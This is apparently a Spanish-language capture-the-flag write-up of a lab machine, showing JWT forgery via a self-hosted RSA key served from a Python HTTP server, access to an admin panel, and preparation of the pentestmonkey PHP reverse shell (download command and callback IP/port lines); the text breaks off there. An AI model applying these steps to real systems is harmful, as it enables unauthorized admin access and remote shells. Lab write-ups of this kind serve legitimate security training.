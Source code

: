 ![[Pasted image 20241006212829.png]]
*Ahora podemos ver esta sección, ya nos ha iniciado sesion de forma automatica.*

![[Pasted image 20241006213327.png]]
*Si vemos la cookie que se esta empleando podemos sospechar de algo...*

![[Pasted image 20241006213428.png]]
*Efectivamente vemos que se esta aplicando jwt...*

```R
❯ openssl genrsa -out privKey.key 2048
❯ cat privKey.key | xclip -sel clip
```
*Creamos una clave privada y la copiamos para poder pegarla en la página.*

![[Pasted image 20241006214018.png]]
*Vemos que una vez copiada podemos modificar los parametros...*

```R
❯ sudo python3 -m http.server 80
```
*Nos abrmos un servidor de python...*

```R
❯ sudo python3 -m http.server 80
[sudo] password for user: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.230 - - [06/Oct/2024 17:49:02] "GET /privKey.key HTTP/1.1" 200 -
```
*Podemos ver que nos ha llegado la solicitud.*

![[Pasted image 20241006214935.png]]
*Vemos que nos ha dado un panel de administrdor.*

![[Pasted image 20241006215009.png]]
*Tenemos un posbile usuario...*

![[Pasted image 20241006215042.png]]
*Vemos que reportan que se peude ejecutar codigo repoto de php.*

![[Pasted image 20241006215102.png]]
*Justo vemos que podemos subir cosas...*

```R
❯ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```
*Nos copiamos este recurso...*

```r
  49   │ $ip = '127.0.0.1';  // CHANGE THIS
  50   │ $port = 1234;       // CHANGE THIS
```
*Cambiamos estos dos parametros...*
